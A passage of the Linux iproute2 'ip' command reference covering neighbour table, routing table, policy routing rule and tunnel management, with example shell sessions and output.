ip neigh add 10.0.0.3 lladdr 000001 dev eth0 nud perm

--- add permanent ARP entry for neighbour 10.0.0.3 on the device eth0.

ip neigh chg 10.0.0.3 dev eth0 nud reachable

--- change its state to reachable.

ip neighbour delete --- delete neighbour entry.

Abbreviations: delete, del, d.

This command invalidates a neighbour entry.

The arguments are the same as with ip neigh add, only lladdr and nud are ignored.

Example:

ip neigh del 10.0.0.3 dev eth0

--- invalidate ARP entry for neighbour 10.0.0.3 on the device eth0.

Deleted neighbour entry will not disappear from the tables immediately; if it is in use it cannot be deleted until the last client will release it, otherwise it will be destroyed during the next garbage collection.

WARNING!

Attempts to delete or to change manually a noarp entry created by kernel may result in unpredictable behaviour. More specifically the kernel may start trying to resolve this address even on NOARP interfaces or change the address to multicast or broadcast.

ip neighbour show --- list neighbour entries.

Abbreviations: show, list, sh, ls.

This commands displays neighbour tables.

Arguments:

to ADDRESS (default) --- prefix selecting neighbours to list.

dev NAME --- list only neighbours attached to this device.

unused --- list only neighbours, which are not in use now.

nud NUD_STATE --- list only neighbour entries in this state. NUD_STATE takes values listed below after the example or the special value all, which means all the states. This option may occur more than once. If this option is absent, ip lists all the entries except for none and noarp.

Example:

kuznet@alisa~ $ ip neigh ls

dev lo lladdr 000000000000 nud noarp

fe80200cfffe763f85 dev eth0 lladdr 00000c763f85 router nud stale

0.0.0.0 dev lo lladdr 000000000000 nud noarp

193.233.7.254 dev eth0 lladdr 00000c763f85 nud reachable

193.233.7.85 dev eth0 lladdr 00e01e633900 nud stale

kuznet@alisa~ $

The first word of each line is the protocol address of the neighbour followed by the device name. The rest of the line describes the contents of neighbour entry identified by the pair (device, address).

lladdr is link layer address of the neighbour.

nud is the state of ``neighbour unreachability detection for this entry. The full list of the possible nud states with minimal descriptions are:

none --- state of the neighbour is void.

incomplete --- the neighbour is in process of resolution.

reachable --- the neighbour is valid and apparently reachable.

stale --- the neighbour is valid, but probably it is already unreachable, so that kernel will try to check it at the first transmission.

delay --- a packet has been sent to the stale neighbour, kernel waits for confirmation.

probe --- delay timer expired, but no confirmation was received. Kernel has started to probe neighbour with ARP/NDISC messages.

failed --- resolution has failed.

noarp --- the neighbour is valid, no attempts to check the entry will be made.

permanent --- it is noarp entry, but only administrator may remove the entry from neighbour table.

Link layer address is valid in all the states except for none, failed and incomplete.

IPv6 neighbours can be marked with the additional flag router, which means that that neighbour introduced itself as an IPv6 router.

Option -statistics provides some usage statistics,

kuznet@alisa~ $ ip -s n ls 193.233.7.254

193.233.7.254 dev eth0 lladdr 00000c763f85 ref 5 used 12/13/20 \

nud reachable

kuznet@alisa~ $

Here ref is number of users of this entry, and used is a triplet of time intervals in seconds separated by slashes. The triplet of numbers is coded as {used/confirmed/updated}. In this example they show that

The entry was used 12 seconds ago.

The entry was confirmed 13 seconds ago.

The entry was updated 20 seconds ago.

ip neighbour flush --- flush neighbour entries.

Abbreviations: flush, f.

This commands flushes the neighbour tables. Entries may be selected to flush by various criteria.

This command has the same arguments as show. Note that it will not run when no arguments are given, and that the default neighbour states to be flushed do not include permanent or noarp.

With the option -statistics the command becomes verbose and prints out the number of deleted neighbours and number of rounds made in flushing the neighbour table. If the option is given twice, ip neigh flush also dumps all the deleted neighbours in the format described in the previous subsection.

netadm@alisa~ # ip -s -s n f 193.233.7.254

193.233.7.254 dev eth0 lladdr 00000c763f85 ref 5 used 12/13/20 \

nud reachable

***Round 1, deleting 1 entries***

***Flush is complete after 1 round***



ip route - routing table management.

Abbreviations: route, ro, r.

This command manages the route entries within the kernel routing tables. The kernel routing tables keep information about protocol paths to other networked nodes.

Each route entry has a key consisting of the protocol prefix, which is the pairing of the network address and network mask length, and optionally the Type of Service (TOS) value. An IP packet matches to the route if the highest bits of the packets destination address are equal to the route prefix at least up to the prefix length and if the TOS of the route is zero or equal to TOS of the packet.

If several routes match to the packet, the following pruning rules are used to select the best one:

1.	The longest matching prefix is selected, all shorter ones are dropped.

2.	If the TOS of some route with the longest prefix is equal to TOS of the packet then routes with different TOS are dropped.

3.	If no exact TOS match was found and routes with TOS=0 exist, the rest of the routes are pruned. Otherwise the route lookup fails.

4.	If several routes remain after steps 1-4 have been tried then routes with the best preference value are selected.

5.	If we still have several routes then the first of them is selected.

Note the ambiguity of action 5. Unfortunately, Linux historically allowed such a bizarre situation. The sense of the word "the first" depends on the literal order in which the routes were added to the routing table and it is practically impossible to maintain a bundle of such routes in any such order.

For simplicity we will limit ourselves to the case wherein such a situation is impossible and routes are uniquely identified by the triplet of {prefix, tos, preference}. Using the ip command for route creation and manipulation makes it impossible to create such non-unique routes.

One useful exception to this rule is the default route on non-forwarding hosts. It is "officially" allowed to have several fallback routes in cases when several routers are present on directly connected networks. In this case Linux performs "dead gateway detection" as controlled by neighbour unreachability detection and references from the transport protocols to select the working router thus the ordering of the routes is not essential. However in this specific case it is not recommended that you manually fiddle with default routes but instead use the Router Discovery protocol. Actually Linux IPv6 does not even allow user level applications access to default routes.

Of course the route selection steps above are not performed in exactly this sequence. The routing table in the kernel is kept in a data structure which allows achieving the final result with minimal cost. Without depending on any particular routing algorithm implemented in the kernel we can summarize the sequence above as: Route is identified by triplet {prefix,tos,preference} key which uniquely locates the route in the routing table.

Route attributes: Each route key refers to a routing information record. The routing information record contains the data required to deliver IP packets, such as output device and next hop router, and additional optional attributes, such as path MTU or the preferred source address for communicating to that destination.

Route types: It is important that the set of required and optional attributes depends on the route type. The most important route type is a unicast route which describes real paths to another hosts. As a general rule, common routing tables only contain unicast routes. However other route types with different semantics do exist. The full list of types understood by the Linux 2.2 kernel is:

unicast --- the route entry describes real paths to the destinations covered by route prefix.

unreachable --- these destinations are unreachable; packets are discarded and the ICMP message host unreachable (ICMP Type 3 Code 1) is generated. The local senders get error EHOSTUNREACH.

blackhole --- these destinations are unreachable; packets are silently discarded. The local senders get error EINVAL.

prohibit --- these destinations are unreachable; packets are discarded and the ICMP message communication administratively prohibited (ICMP Type 3 Code 13) is generated. The local senders get error EACCES.

local --- the destinations are assigned to this host, the packets are looped back and delivered locally.

broadcast --- the destinations are broadcast addresses, the packets are sent as link broadcasts.

throw --- special control route used together with policy rules. If a throw route is selected then lookup in this particular table is terminated pretending that no route was found. Without any policy routing it is equivalent to the absence of the route in the routing table, the packets are dropped and ICMP message net unreachable (ICMP Type 3 Code 0) is generated. The local senders get error ENETUNREACH.

nat --- special NAT route. Destinations covered by the prefix are considered as dummy (or external) addresses, which require translation to real (or internal) ones before forwarding. The addresses to translate to are selected with the attribute via.

anycast --- (not implemented) the destinations are anycast addresses assigned to this host. They are mainly equivalent to local addresses with the difference that such addresses are invalid to be used as the source address of any packet.

multicast --- special type, used for multicast routing. It does not present in normal routing tables.

Route tables: Linux can place routes within multiple routing tables identified by a number in the range from 1 to 255 or by a name taken from the file /etc/iproute2/rt_tables. By default all normal routes are inserted to the table main (ID 254) and the kernel uses only this table when calculating routes.

Actually another routing table always exists which is invisible but even more important. It is the local table (ID 255). This table consists of routes for local and broadcast addresses. The kernel maintains this table automatically and administrators should not modify it and do not even need to look at it in normal operation.

The multiple routing tables come into play when policy routing is used. In policy routing the routing table identifier becomes effectively one more parameter added to the key triplet {prefix,tos,preference}. Thus under policy routing the route is obtained by {tableid,key triplet} identifing the route uniquely. So you can have several identical routes in different tables that will not conflict as we had mentioned above in in the description of "the first" mechanism.

ip route add --- add new route

ip route change --- change route

ip route replace --- change route or add new one.

Abbreviations: add, a; change, chg; replace, repl.

Arguments:

to PREFIX or to TYPE PREFIX (default) --- destination prefix of the route. If TYPE is omitted, ip assumes type unicast. Another values of TYPE are listed above. PREFIX is IPv4 or IPv6 address optionally followed by slash and prefix length. If the length of the prefix is missing, ip assumes full-length host route. Also there is one special PREFIX --- default --- which is equivalent to IP 0/0 or to IPv6 /0.

tos TOS or dsfield TOS --- Type Of Service (TOS) key. This key has no mask associated and the longest match is understood as first, compare TOS of the route and of the packet, if they are not equal, then the packet still may match to a route with zero TOS. TOS is either 8bit hexadecimal number or an identifier from /etc/iproute2/rt_dsfield.

metric NUMBER or preference NUMBER --- preference value of the route. NUMBER is an arbitrary 32bit number.

table TABLEID --- table to add this route. TABLEID may be a number or a string from the file /etc/iproute2/rt_tables. If this parameter is omitted, ip assumes table main, with exception of local, broadcast and nat routes, which are put to table local by default.

dev NAME --- the output device name.

via ADDRESS --- the address of nexthop router. Actually, the sense of this field depends on route type. For normal unicast routes it is either true nexthop router or, if it is a direct route installed in BSD compatibility mode, it can be a local address of the interface. For NAT routes it is the first address of block of translated IP destinations.

src ADDRESS --- the source address to prefer using when sending to the destinations covered by route prefix. This address must be defined on a local machine interface. This will come into play when routes and rules are combined with the masquerade rules of the ipchains firewall we discuss later.

realm REALMID --- the realm which this route is assigned to. REALMID may be a number or a string from the file /etc/iproute2/rt_realms.

mtu MTU or mtu lock MTU --- the MTU along the path to destination. If modifier lock is not used, MTU may be updated by the kernel due to Path MTU Discovery. If the modifier lock is used then no path MTU discovery will be performed and all the packets will be sent without the DF bit set for the IPv4 case or fragmented to the MTU for the IPv6 case.

window NUMBER --- the maximal advertised window for TCP to these destinations measured in bytes. This parameter limits the maximal data bursts our TCP peers are allowed to send to us.

rtt NUMBER --- the initial RTT (``Round Trip Time) estimate. Actually, in Linux 2.2 and 2.0 it is not RTT but the initial TCP retransmission timeout. The kernel forgets it as soon as it receives the first valid ACK from peer. Alas, this means that this attribute affects only the connection retry rate and is hence useless.

nexthop NEXTHOP --- nexthop of multipath route. NEXTHOP is a complex value with its own syntax as follows:

via ADDRESS is nexthop router.


dev NAME is output device.


weight NUMBER is weight of this element of multipath route

reflecting its relative bandwidth or quality.


scope SCOPE_VAL --- scope of the destinations covered by the route prefix. SCOPE_VAL may be a number or a string from the file /etc/iproute2/rt_scopes. If this parameter is omitted, ip assumes scope global for all gatewayed unicast routes, scope link for direct unicast routes and broadcasts and scope host for local routes.

protocol RTPROTO --- routing protocol identifier of this route. RTPROTO may be a number or a string from the file /etc/iproute2/rt_protos. If the routing protocol ID is not given ip assumes the protocol is boot. IE. This route has been added by someone who does not understand what they are doing. Several of these protocol values have a fixed interpretation.

redirect --- route was installed due to ICMP redirect.


kernel --- route was installed by the kernel during autoconfiguration.


boot --- route was installed during bootup sequence. If a routing daemon will start, it will purge all of them. This is the value assigned to manually inserted routes that do not have a protocol specified.


static --- route was installed by administrator to override dynamic routing. Routing daemon(s) will respect them and advertise them if it is so configured.


ra --- route was installed by Router Discovery protocol.


Note that the rest of values are not reserved and administrator is free to assign or not assign protocol tags. Routing daemons at least should take care of setting some unique protocol values for themselves such as they are assigned in rtnetlink.h or in the rt_protos database.


onlink --- pretend that the nexthop is directly attached to this link, even if it does match any interface prefix. One application of this option may be found in ip tunnels between dissimilar addresses.

equalize --- allow packet by packet randomization on multipath routes. Without this modifier route will be frozen to one selected nexthop, so that load splitting will occur only on per-flow base. Equalize works only if the appropriate kernel configuration option is chosen or if the kernel is patched.

Two more commands, prepend and append do exist. Prepend does the same thing as the classic route add command by adding the route even if another route to the same destination already exists. The opposite case is append which adds the route to the end of the list. We strongly reccommend that you avoid using these commands.

Unfortunately, IPv6 currently only understands the append command correctly, all the rest of the set translating to append. Certainly, this will change in the future.

Examples:

Add a plain route to network 10.0.0/24 via gateway 193.233.7.65

ip route add 10.0.0/24 via 193.233.7.65

change it to a direct route via device dummy

ip ro chg 10.0.0/24 via 193.233.7.65 dev dummy

Add default multipath route splitting load between ppp0 and ppp1

ip route add default scope global nexthop dev ppp0 nexthop dev ppp1

Note the scope value which is not necessary but prompts the kernel that this route is gatewayed rather than direct. Actually, if you know the addresses of the remote endpoints it would be better to specify them using the parameter via.

NAT the address 192.203.80.144 to 193.233.7.83 before forwarding

ip route add nat 192.203.80.142 via 193.233.7.83

Note that the reverse NAT translation is setup with policy rules as described in the policy routing section.

ip route delete

Abbreviations: delete, del, d.

ip route del has the same arguments as ip route add but their semantics are a bit different.

Key values (dest, tos, preference and table) select the route to delete. If any optional attributes are present, ip verifies that they coincide with attributes of the route to delete. If no route with given key and attributes is found then ip route del fails.

Linux kernel 2.0 had the ability to delete a route selected only by the prefix address while ignoring its netmask. This option does not exist anymore due to the ambiguous nature of the selection. If you wish to have such functionality then look at the ip route flush command which provides a richer set of capabilities.

Examples:

Delete the multipath route created by the add example previously

ip route del default scope global nexthop dev ppp0 nexthop dev ppp1

ip route show

Abbreviations: show, list, sh, ls, l.

This format of the command allows viewing the routing tables contents and looking at route(s) as selected by some criteria.

Arguments:

to SELECTOR (default) --- select routes only from the given range of destinations. SELECTOR has optional modifiers (root, match or exact) and a prefix.

root PREFIX selects routes with prefixes not shorter than PREFIX. IE: root 0/0 selects all the routing table.

match PREFIX selects routes with prefixes not longer than PREFIX. match 10.0/16 selects 10.0/16, 10/8 and 0/0, but it does not select 10.1/16 and 10.0.0/24.

exact PREFIX (or just PREFIX) selects routes exactly with this prefix.

If none of these options are present then the ip command assumes root 0/0 which lists the entire table.

tos TOS or dsfield TOS --- Select only routes with given TOS.

table TABLEID --- Show routes from this table(s). Default setting is to show table main (ID 254). TABLEID may be either ID of a real table or one of the special values:



all --- list all the tables.



cache --- dump routing cache.



IPv6 has only a single table, however splitting into main, local, and cache is emulated by the ip utility.



cloned or cached --- list cloned routes which are routes dynamically forked off of other routes because some route attribute (like MTU) was updated. It is equivalent to table cache.



from SELECTOR --- the same syntax as to SELECTOR but bounds the source address range rather than the destination. Note that the from option only works with cloned routes.

protocol RTPROTO --- list only routes of this protocol.

scope SCOPE_VAL --- list only routes with this scope.

type TYPE --- list only routes of this type.

dev NAME --- list only routes going via this device.

via PREFIX --- list only routes going via selected by PREFIX nexthop routers.

src PREFIX --- list only routes with preferred source addresses selected by PREFIX.

realm REALMID or realms FROMREALM/TOREALM --- list only routes with these realms.



Using this command is best explained by running through some examples.

Example: Let us count the routes of protocol gated/bgp on a router

kuznet@amber~ $ ip route list proto gated/bgp | wc

1413 9891 79010

kuznet@amber~ $

To count size of routing cache we have to use option -o, because cached attributes can take more than one line of the output

kuznet@amber~ $ ip -o route list cloned | wc

159 2543 18707

kuznet@amber~ $

The output of this command consists of per route records separated by line feeds. However, some records may consist of more than one line particularly when the route is cloned or you have requested additional statistics. If the option -o is given, then line feeds separating lines inside records are replaced with backslash sign.

The output has the same syntax as arguments given to ip route add, so that it can be understood easily.

kuznet@amber~ $ ip route list 193.233.7/24

193.233.7.0/24 dev eth0 proto gated/conn scope link \

src 193.233.7.65 realms inr.ac

kuznet@amber~ $

If you list cloned entries the output contains other attributes, which are evaluated during route calculation and updated during route lifetime. The example of the output is:

kuznet@amber~ $ ip route list 193.233.7.82 table cache

193.233.7.82 from 193.233.7.82 dev eth0 src 193.233.7.65 \

realms inr.ac/inr.ac

cache <src-direct,redirect> mtu 1500 rtt 300 iif eth0

193.233.7.82 dev eth0 src 193.233.7.65 realms inr.ac

cache mtu 1500 rtt 300

kuznet@amber~ $

This route looks a bit strange, does it not? Did you notice that this is the path from 193.233.7.82 back to 193.233.82? In the section on ip route get you will see how this route is created.

The second line which starts with the word cache shows the additional attributes which normal routes do not possess. The cache flags contained within the angle brackets are:

local --- packets are delivered locally. It stands for loopback unicast routes, for broadcast routes, and for multicast routes if this host is member of the corresponding group.

reject --- the path is bad. Any attempt to use it results in error. See attribute error below.

mc --- the destination is multicast.

brd --- the destination is broadcast.

src-direct --- the source is on a directly connected interface.

redirected --- the route was created by an ICMP Redirect.

redirect --- packets going via this route will trigger ICMP redirect.

fastroute --- route is eligible to be used for fastroute.

equalize --- make packet by packet randomization along this path.

dst-nat --- destination address requires translation.

src-nat --- source address requires translation.

masq --- source address requires masquerading.

notify --- (not implemented) change/deletion of this route will trigger RTNETLINK notification.

The following are optional attributes that may be present:

error --- on reject routes this is the error code returned to local senders when they try to use this route. These error codes are translated to ICMP error codes sent to remote senders according to the rules described above in the subsection devoted to route types.

expires --- this entry will expire after this timeout.

iif --- the packets for this path are expected to arrive on this interface.

Giving the option -statistics will show further information about this route:

users --- number of users of this entry.

age --- shows when this route was used last time.

used --- number of lookups of this route since its creation.

ip route flush - allows group deletion of routes

Abbreviations: flush, f.

This command allows flushing routes as selected by some criteria.

The arguments have the same syntax and semantics as the arguments of ip route show but the routing tables are purged rather than listed. The only difference is the default action performed. Where the ip route show command dumps the main IP routing table, ip route flush prints the help page. The reason for this difference does not require an explanation does it?

With the option -statistics the command becomes verbose and prints out the number of deleted routes and the number of rounds needed to flush the routing table. If the option is given twice then ip route flush also dumps all deleted routes in the format described in the previous subsection.

Examples:

The first example flushes all the gatewayed routes from main table such as after a routing daemon crash.

netadm@amber~ # ip -4 ro flush scope global type unicast

This option deserved to be put into the scriptlet routef available within the IPROUTE2 utility distribution. This option was described in the route(8) man page as borrowed from BSD but was never implemented in Linux.

The second example is flushing all IPv6 cloned routes:

netadm@amber~ # ip -6 -s -s ro flush cache

3ffe2400220affffef4c5d1 via 3ffe2400220affffef4c5d1 \

dev eth0 metric 0

cache used 2 age 12sec mtu 1500 rtt 300

3ffe2400280adfffeb78034 via 3ffe2400280adfffeb78034 \

dev eth0 metric 0

cache used 2 age 15sec mtu 1500 rtt 300

3ffe2400280c8fffe595bcc via 3ffe2400280c8fffe595bcc \

dev eth0 metric 0

cache users 1 used 1 age 23sec mtu 1500 rtt 300

3ffe2400012a0ccfffe661878 via 3ffe2400012a0ccfffe661878 \

dev eth1 metric 0

cache used 2 age 20sec mtu 1500 rtt 300

3ffe240001a0020fffe71fb30 via 3ffe240001a0020fffe71fb30 \

dev eth1 metric 0

cache used 2 age 33sec mtu 1500 rtt 300

ff021 via ff021 dev eth1 metric 0

cache users 1 used 1 age 45sec mtu 1500 rtt 300

***Round 1, deleting 6 entries***

***Flush is complete after 1 round***

netadm@amber~ # ip -6 -s -s ro flush cache

Nothing to flush.

The third example is flushing BGP routing tables after gated death.

netadm@amber~ # ip ro ls proto gated/bgp wc

1408 9856 78730

netadm@amber~ # ip -s ro f proto gated/bgp

***Round 1, deleting 1408 entries***

***Flush is complete after 1 round***

netadm@amber~ # ip ro f proto gated/bgp

Nothing to flush.

netadm@amber~ # ip ro ls proto gated/bgp


ip route get - obtain route pathing

Abbreviations: get, g.

This command gets a single route to a destination and prints its contents exactly as kernel sees it.

Arguments:

to ADDRESS (default) --- destination address.

from ADDRESS --- source address.

tos TOS or dsfield TOS --- Type Of Service.

iif NAME --- device, which this packet is expected to arrive from.

oif NAME --- enforce output device, which this packet will be routed out.

connected --- if no source address (option from) was given, relookup the route with the source address set to the preferred address as received from the first lookup. If policy routing is used this may be a different route.

Note that this operation is not equivalent to ip route show. ip route show shows the existing routes, ip route get resolves them and creates new clones if necessary. Essentially, ip route get is equivalent to actually sending a packet along this path. If the argument iif is not given then the kernel creates a route to output packets towards requested destination. This is equivalent to pinging the destination then running ip route list cache but in the case of ip route get no packets are actually sent. With the argument iif present the kernel pretends that a packet has arrived from this interface and searches for a path to forward the packet. This command outputs routes in the same format as ip route ls.

Examples:

Find route to output packets to 193.233.7.82:

kuznet@amber~ $ ip route get 193.233.7.82

193.233.7.82 dev eth0 src 193.233.7.65 realms inr.ac

cache mtu 1500 rtt 300

kuznet@amber~ $

Find route to forward packets arriving on eth0 from 193.233.7.82 and destined to 193.233.7.82:

kuznet@amber~ $ ip route get 193.233.7.82 from 193.233.7.82 iif eth0

193.233.7.82 from 193.233.7.82 dev eth0 src 193.233.7.65 \

realms inr.ac/inr.ac

cache <src-direct,redirect> mtu 1500 rtt 300 iif eth0

kuznet@amber~ $

This is the operation that created the funny route in the examples to ip route list with 193.233.7.82 looped back to 193.233.7.82. Note the redirect flag present on the output.

Find multicast route for packets arriving on eth0 from host 193.233.7.82 and destined to multicast group 224.2.127.254 assuming that a multicast routing daemon is running such as in this case we are running pimd.

kuznet@amber~ $ ip route get 224.2.127.254 from 193.233.7.82 iif eth0

multicast 224.2.127.254 from 193.233.7.82 dev lo \

src 193.233.7.65 realms inr.ac/cosmos

cache <mc> iif eth0 Oifs eth1 pimreg

kuznet@amber~ $

This route differs from the ones seen before. It contains a normal part and a multicast part. The normal part is used to deliver or not deliver the packet to local IP listeners. In this case the router is not acting as a member of the multicast group so the route has no local flag and only forwards packets. The output device for such entries is always loopback. The multicast part consists of an additional Oifs list showing the output interfaces.

Now it is time for a more complicated example. Let us add an invalid gatewayed route for a destination which is really directly connected.

netadm@alisa~ # ip route add 193.233.7.98 via 193.233.7.254

netadm@alisa~ # ip route get 193.233.7.98

193.233.7.98 via 193.233.7.254 dev eth0 src 193.233.7.90

cache mtu 1500 rtt 3072


and probe it with ping

netadm@alisa~ # ping -n 193.233.7.98

PING 193.233.7.98 (193.233.7.98) from 193.233.7.90 56 data bytes

From 193.233.7.254 Redirect Host(New nexthop 193.233.7.98)

64 bytes from 193.233.7.98 icmp_seq=0 ttl=255 time=3.5 ms

From 193.233.7.254 Redirect Host(New nexthop 193.233.7.98)

64 bytes from 193.233.7.98 icmp_seq=1 ttl=255 time=2.2 ms

64 bytes from 193.233.7.98 icmp_seq=2 ttl=255 time=0.4 ms

64 bytes from 193.233.7.98 icmp_seq=3 ttl=255 time=0.4 ms

64 bytes from 193.233.7.98 icmp_seq=4 ttl=255 time=0.4 ms

^C

--- 193.233.7.98 ping statistics ---

5 packets transmitted, 5 packets received, 0% packet loss

round-trip min/avg/max = 0.4/1.3/3.5 ms



What occured? The router at 193.233.7.254 understood that we have a much better path to the destination and sent us an ICMP redirect message. We now retry ip route get to see what we have in our routing tables.

netadm@alisa~ # ip route get 193.233.7.98

193.233.7.98 dev eth0 src 193.233.7.90

cache <redirected> mtu 1500 rtt 3072



ip rule --- routing policy database management.

Abbreviations: rule, ru.

Rules in routing policy database controlling route selection algorithm.

Classic routing algorithms used in the Internet make routing decisions based only on the destination address of packets and in theory, but not in practice, on the TOS field. In some circumstances we want to route packets differently depending not only on the destination addresses, but also on other packet fields such as source address, IP protocol, transport protocol ports or even packet payload. This task is called "policy routing".

"policy routing" != "routing policy"

"policy routing" = "cunning routing"

"routing policy" = "routing tactics" or "routing plan"

To solve this task the conventional destination based routing table, ordered according to the longest match rule, is replaced with the "routing policy database" or RPDB, which selects the appropriate route through execution of some set of rules. These rules may have many keys of different natures and therefore they have no natural ordering excepting that which is imposed by the network administrator. In Linux the RPDB is a linear list of rules ordered by a numeric priority value. The RPDB explicitly allows matching packet source address, packet destination address, TOS, incoming interface (which is packet metadata, rather than a packet field), and using fwmark values for matching IP protocols and transport ports.

Each routing policy rule consists of a selector and an action predicate. The RPDB is scanned in the order of increasing priority with the selector of each rule applied to the source address, destination address, incoming interface, tos, and fwmark. If the selector matches the packet the action is performed. The action predicate may return success in which case the rule output provides either a route or a failure indication and RPDB lookup is then terminated. Otherwise, the RPDB program continues on to the next rule.

What is the action semantically? The natural action is to select the nexthop and output device. This is the way a packet path route is selected by Cisco IOS, let us call it "match & set". In Linux the approach is more flexible as the action includes lookups in destination-based routing tables and selecting a route from these tables according to classic longest match algorithm. The "match & set" approach then becomes the simplest case of Linux route selection realized when the second level routing table contains a single default route. Remember that Linux supports multiple routing tables managed with ip route command.

At startup the kernel configures a default RPDB consisting of three rules:

1.	Priority 0: Selector = match anything

Action = lookup routing table local (ID 255).

The table local is the special routing table containing high priority control routes for local and broadcast addresses.

Rule 0 is special, it cannot be deleted or overridden.

2.	Priority 32766: Selector = match anything

Action = lookup routing table main (ID 254)

The table main is the normal routing table containing all non-policy routes. This rule may be deleted or overridden with other rules.

3.	Priority 32767: Selector = match anything

Action = lookup routing table default (ID 253).

The table default is empty and reserved for post-processing if previous default rules did not select the packet. This rule also may be deleted.

Do not mix routing tables and rules. Rules point to routing tables, several rules may refer to one routing table and some routing tables may have no rules pointing to them. If you delete all the rules referring to a table then the table is not used but still exists. A routing table will disappear only after all the routes contained within it are deleted.

Rule attributes: Each RPDB entry has additional attributes attached. Each rule has a pointer to some routing table. NAT and masquerading rules have the attribute to select a new IP address to translate/masquearade. Additionally rules have some of the optional attributes which routes have such as realms. These values do not override those contained in routing tables, they are used only if the route did not select any of those attributes.

Rule types: The RPDB may contain rules of the following types.

unicast --- the rule prescribes returning the route found in the routing table referenced by the rule.

blackhole --- the rule prescribes to drop packet silently.

unreachable --- the rule prescribes generating the error "Network is unreachable".

prohibit --- the rule prescribes generating the error "Communication is administratively prohibited".

nat --- the rule prescribes translating the source address of the IP packet to some other value.



ip rule add --- insert new rule

Abbreviations: add, a; delete, del, d.

Arguments:

type TYPE (default) --- type of this rule. The list of valid types was given in the previous subsection.

from PREFIX --- select source prefix to match.

to PREFIX --- select destination prefix to match.

iif NAME --- select incoming device to match. If the interface is loopback, the rule matches only packets originated by this host. It means that you may create separate routing tables for forwarded and local packets and, hence, completely segregate them.

tos TOS or dsfield TOS --- select TOS value to match.

fwmark MARK --- select value of fwmark to match.

priority PREFERENCE --- priority of this rule. Each rule should have an explicitly set unique priority value. Priority is an unsigned 32 bit number thus we have 4294967296 possible rules.



WARNING!



For historical reasons ip rule add does not require any priority value and allows the priority value to be non-unique. If the user had not supplied a priority value then one was assigned by the kernel.If the user requested creating a rule with a priority value which already existed then the kernel did not reject the request and added the new rule before all old rules of the same priority. This is a mistake in the current design, nothing more. It should be fixed by the time you read this so please do not rely on this feature. You should always use explicit priorities when creating rules.



table TABLEID --- routing table identifier to lookup if the rule selector matches.

realms FROM/TO --- Realms to select if the rule matched and routing table lookup succeeded. Realm TO is used only if the route returned did not select any realm.

nat ADDRESS --- The base of IP address block to translate source address. The ADDRESS may be either the start of a block of NAT addresses as selected by NAT routes, a local host address, or even zero. In the last two cases the Linux router does not NAT translate the packets but masquerades them to this address.

Changes to the RPDB made with these commands do not become active immediately. You should run ip route flush cache to flush out the routing cache after inserting rules.

Examples:

Route packets with source addresses from 192.203.80/24 according to routing table inr.ruhep

ip rule add from 192.203.80.0/24 table inr.ruhep prio 220

Translate packet source 193.233.7.83 to 192.203.80.144 and route it according to table #1 (Table #1 is defined in /etc/iproute/rt_tables as inr.ruhep)

ip rule add from 193.233.7.83 nat 192.203.80.144 table 1 prio 320

Delete unused default rule

ip rule del prio 32767

ip rule show - list policy rules

Abbreviations: show, list, sh, ls, l.

Good news - this is the only command which has no arguments. Here is the example:

kuznet@amber~ $ ip rule list

0 from all lookup local

200 from 192.203.80.0/24 to 193.233.7.0/24 lookup main

210 from 192.203.80.0/24 to 192.203.80.0/24 lookup main

220 from 192.203.80.0/24 lookup inr.ruhep realms inr.ruhep/radio-msu

300 from 193.233.7.83 to 193.233.7.0/24 lookup main

310 from 193.233.7.83 to 192.203.80.0/24 lookup main

320 from 193.233.7.83 lookup inr.ruhep map-to 192.203.80.144

32766 from all lookup main



In the first position the rule priority value stands followed by a colon. Then the selectors follow with each key prefixed by the keyword used to create the rule.

The keyword lookup is followed by the routing table identifier as recorded in the file /etc/iproute2/rt_tables.

If the rule does NAT, as in rule #320, it is shown by the keyword map-to followed by the start of the block of addresses to map.

The sense of this example is pretty simple. The prefixes 192.203.80.0/24 and 193.233.7.0/24 form an internal network but each prefix is routed differently. Additionally, the host 193.233.7.83 is translated to another prefix as 192.203.80.144 when talking to the outer world.

ip tunnel - ip tunnelling configuration

Abbreviations: tunnel, tunl.

The tunnel objects are tunnels encapsulating packets within IPv4 packets and sending them over the IP infrastructure.

ip tunnel add - creating tunnels

Abbreviations: add, a

Arguments:

name NAME (default) --- select tunnel device name.

mode MODE --- set tunnel mode. Three modes are available: ipip, sit, gre

remote ADDRESS --- set remote endpoint of the tunnel.

local ADDRESS --- set fixed local address for tunneled packets. It must be an address on another interface of this host.

ttl N --- set fixed TTL N on tunneled packets. N is number in the range 1--255. 0 is special value, meaning that packets inherit TTL value. Default value is inherit.

tos TOS or dsfield TOS --- set fixed TOS on tunneled packets. Default value is inherit.

dev NAME --- bind tunnel to device NAME, so that tunneled packets will be routed only via this device and will not able to escape to another device, when route to endpoint changes.

nopmtudisc --- disable Path MTU Discovery on this tunnel. It is enabled by default. Note that a fixed ttl is incompatible with this option. A tunnel with fixed ttl always performs pmtu discovery.

key K, ikey K, okey K --- (GRE only) use keyed GRE with key K. K is either number or IP address-like dotted quad. The parameter key sets key to use in both directions, ikey and okey allow setting different keys for input and output.

csum, icsum, ocsum --- (GRE only) checksum tunneled packets. The flag ocsum orders checksumming outgoing packets, icsum requires that all the input packets have a correct checksum. csum is equivalent to the combination "icsum ocsum".

seq, iseq, oseq --- (GRE only) serialize packets. The flag oseq enables sequencing outgouing packets, iseq requires that all the input packets were serialized. seq is equivalent to the combination "iseq oseq".

I think this option does not work. At least, I did not test it, did not debug it and even do not understand, how it is supposed to work and for what purpose Cisco planned to use it. Do not use it. -- Alexey



Examples:

Create pointopoint IPv6 tunnel with maximal TTL of 32.

ip tunl add Cisco mode sit remote 192.31.7.104 local 192.203.80.142 ttl 32

ip tunnel show - list tunnel attributes

Abbreviations: show, list, sh, ls, l.

Example:


kuznet@amber~ $ ip tunl ls Cisco

Cisco: ipv6/ip remote 192.31.7.104 local 192.203.80.142 ttl 32



The line starts with the tunnel device name terminated by a colon then the tunnel mode follows. The parameters of the tunnel are listed with the same keywords which were used at tunnel creation.

kuznet@amber~ $ ip -s tunl ls Cisco

Cisco ipv6/ip remote 192.31.7.104 local 192.203.80.142 ttl 32

RX Packets Bytes Errors CsumErrs OutOfSeq Mcasts

12566 1707516 0 0 0 0

TX Packets Bytes Errors DeadLoop NoRoute NoBufs

13445 1879677 0 0 0 0



Essentially these numbers are the same as those printed using ip -s link show but the tags are different to reflect tunnel specific features. These features are:

CsumErrs --- total number of packets dropped because of checksum failures for GRE tunnel with enabled checksumming.

OutOfSeq --- total number of packets dropped because they arrived out of sequence for GRE tunnel with enabled serialization.

Mcasts --- total number of multicast packets, received on broadcast GRE tunnel.

